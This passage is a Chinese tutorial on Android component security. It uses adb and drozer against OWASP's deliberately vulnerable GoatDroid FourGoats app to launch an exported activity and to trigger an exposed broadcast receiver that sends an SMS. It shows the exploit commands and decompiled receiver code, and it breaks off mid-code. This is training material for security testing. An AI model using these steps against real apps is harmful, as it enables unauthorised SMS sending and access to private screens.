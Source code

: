 ```
$ adb shell am start –n com.isi.testapp/.Welcome
```
4. 这个是否多此一举呢？想看Welcome的Activity直接在layout看这个活动的布局不可以么？我们反编译apk找到这个布局文件来看一下。
```
<?xml version="1.0" encoding="utf-8"?>
<LinearLayout android:layout_height="fill_parent" android:layout_width="fill_parent" android:orientation="vertical" xmlns:android="http://schemas.android.com/apk/res/android">
    <Gallery android:background="@drawable/infosec" android:id="@id/gallery1" android:layout_gravity="center" android:layout_height="234.0dip" android:layout_marginTop="40.0dip" android:layout_width="278.0dip" />
    <TextView android:id="@id/tvdisplay" android:layout_gravity="center" android:layout_height="wrap_content" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="Private Area" android:textColor="#ff0000ff" android:textSize="40.0dip" android:typeface="monospace" />
</LinearLayout>
```

如果将这个layout渲染过后的确可以看到和启动活动的一样的效果，但这是因为这个布局是写死的静态，如果这个Activity运行起来布局信息将作出更改，则我们也许可以看到一些敏感的信息，如案例中的华为网盘。
##### BroadcastReceiver暴露导致发送短信
> 样本fourgoats.apk介绍  
出自OWASP的GoatDroid项目，集成了一堆漏洞的APK，代码未经过混淆与加密，可以反编译后看到比较清晰的逻辑，分析漏洞成因。虽然是许多年前的项目，很多漏洞也早已消失，但对于入门的新手来说还是有一定的价值的。下载地址：https://pan.baidu.com/s/1o957Nku  密码:ssz9  
1. 查看攻击面，找到一个导出的广播接收器
```
dz> run app.package.attacksurface org.owasp.goatdroid.fourgoats
Attack Surface:
  4 activities exported
  1 broadcast receivers exported
  0 content providers exported
  1 services exported
    is debuggable
```
2. 查看Broadcast具体信息，找到广播的类名，以及注册的Intent的动作
```
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats -i
Package: org.owasp.goatdroid.fourgoats
  org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
    Intent Filter:
      Actions:
        - org.owasp.goatdroid.fourgoats.SOCIAL_SMS
    Permission: null
```
3. 如何利用？视频中老师直接给出以下这条命令：
```
dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --extra string phoneNumber 10010 --extra string message hacked!
```
- 但是很奇怪这里phoneNumber以及message这个变量名字是如何得到的呢？还是只要是发送短信的广播接收器通用接受这两个参数？其实当然不是了。在上课的时候老师跳过了这个步骤，这里应当继续找到这个广播接收器的代码实现。  
- 因为软件没有加壳没有混淆，所以反编译后目录结构清楚，很容易找SendSMSNowReceiver结果如下：
```
package org.owasp.goatdroid.fourgoats.broadcastreceivers;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsManager;
import org.owasp.goatdroid.fourgoats.misc.Utils;

public class SendSMSNowReceiver extends BroadcastReceiver {
    Context context;

    public SendSMSNowReceiver() {
        super();
```